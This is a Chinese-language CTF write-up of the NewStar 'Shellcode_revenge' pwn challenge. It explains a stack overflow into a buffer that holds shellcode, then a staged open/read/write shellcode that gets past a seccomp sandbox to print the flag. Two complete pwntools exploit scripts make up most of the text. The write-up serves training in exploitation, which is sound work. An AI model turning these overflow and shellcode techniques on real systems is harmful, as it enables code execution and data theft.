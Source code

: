 ```yaml
---
title: Shellcode_revenge
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- stackoverflow
- sandbox
- orw

---
```


NewStar CTF week2的一道题，64bit没开canary，有个沙箱

<!-- more -->

![ida](./shellcode_revenge/ida.jpg)

没加沙箱可以把shellcode写到buf，然后栈溢出修改返回地址为buf然后getshell。

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./pwn")
p=process("./pwn")
#p=remote('node4.buuoj.cn',27624)
padding=0x38
shellcode=asm(shellcraft.sh())
p.recv()
p.sendline(shellcode)
p.recv()
payload='a'*padding+p64(0x233000)
p.sendline(payload)
p.interactive()
```

加了的话不能执行execve()和13号系统调用(sys_rt_sigaction)，不过可以用open(),read(),write()直接打印出flag，看来是要自己写shellcode了。

后来发现第一次read只读入了0x1A，因此只能先写一个sys_read，在下次ret到0x233000执行输入一个长一点的内容。执行read函数调用后在后面继续写入orw，read函数执行完后就会执行后面的orw，执行open函数打开./flag，执行read函数读出flag到0x233100，最后用write函数输出出来。

其实也可以不用orw，用shellcraft.cat("./flag\x00")也可以cat flag（只要输入长度够）。

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./pwn")
#p=process("./pwn")
p=remote('node4.buuoj.cn',26004)

def debug():
	gdb.attach(p,"b main")
	pause()

padding=0x38
shellcode=asm(
'''
    xor rax, rax
    xor rdi, rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x2
    mov rdi, 0x0067616c662f2e   
    push rdi
    mov rdi, rsp
    syscall  

    mov rdx, 0x50   
    mov rsi, 0x233100
    mov rdi, rax    
    mov rax, 0      
    syscall
    
    mov rdi, 0x1     
    mov rax, 0x1      
    syscall
'''
)

shellcode_read=asm(
'''
    xor eax,eax
    xor rdi, rdi 
    mov rdx, 0x100
    mov rsi, 0x233015
    syscall
'''
    )

#print(hex(len(shellcode_read)))
#pause()
p.recvuntil('Well.Just a little.\n')

p.sendline(shellcode_read)
p.recvuntil("Let's see what u can do this time~\n")

payload='a'*padding+p64(0x233000)
p.sendline(payload)
#debug()
p.recvuntil("See you!\n")
payload=shellcode
p.send(payload)
p.interactive()
```
